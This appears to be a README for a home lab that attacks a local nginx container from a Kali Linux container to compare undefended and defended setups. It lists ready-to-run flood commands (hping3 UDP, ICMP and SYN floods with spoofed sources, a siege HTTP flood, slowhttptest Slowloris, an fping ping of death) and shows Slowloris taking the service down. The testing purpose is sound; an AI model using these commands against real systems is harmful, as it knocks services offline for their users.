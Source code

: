 # Tasks
* create attacker Kali linux container (using UDP Flood, ICMP flood, HTTP flood, Slowloris, SYN flood,  Ping of Death attacks)
* create defender container
* measure attacker vs non-defended container and attacker vs properly defended container

# Additional resource
* https://pentest.blog/how-to-perform-ddos-test-as-a-pentester/

# Kali Linux

Used `kalilinux/kali-rolling` see [link](https://www.kali.org/docs/containers/using-kali-docker-images/)

## Udp flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 --flood --rand-source --udp -p 8080 nginx
```

## ICMP flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 --flood --rand-source -1 -p 8080 nginx
```

## HTTP flood
used [siege](https://www.kali.org/tools/siege/)
```
    $ siege -b -c250 -t60s http://nginx:8080
```

## Slowloris attack
used Kali package [slowhttptest](https://www.kali.org/tools/slowhttptest/)
```
    $ slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://nginx:8080 -x 24 -p 3
```

## Syn flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 -S --flood -V -p 8080 nginx
```


## Ping of death
used [fping](https://www.kali.org/tools/fping/)
```
    $ fping -b 65510 nginx
```

# Results

Following command used to determine health of our application
```
    $ siege -d1 -c50 -t60s http://localhost:8080
```
Also we'll monitor docker stats using [TIG stack](https://hackmd.io/@lnu-iot/tig-stack)

## standart nginx config without additional defence

* slowloris attack
Once we've reached 1022 connection we'll successfuly DOSed our service
```
slow HTTP test status on 35th second:

initializing:        0
pending:             0
connected:           1022
error:               0
closed:              28
service available:   NO
```
And our siege command results show us that our application was unable to server requests
```
siege aborted due to excessive socket failure; you
can change the failure threshold in $HOME/.siegerc

Transactions:		         512 hits
Availability:		       33.33 %
Elapsed time:		       16.26 secs
Data transferred:	        0.00 MB
Response time:		        0.02 secs
Transaction rate:	       31.49 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		        0.65
Successful transactions:         512
Failed transactions:	        1024
Longest transaction:	        0.07
Shortest transaction:	        0.00
```
What is really dangerous about this kind of attack is that it does not seems to be easy to track using metrics (the only spike for nginx container is RAM)
![image](https://user-images.githubusercontent.com/19594637/147953185-646f4c15-069b-4a74-8654-209e172289c4.png)

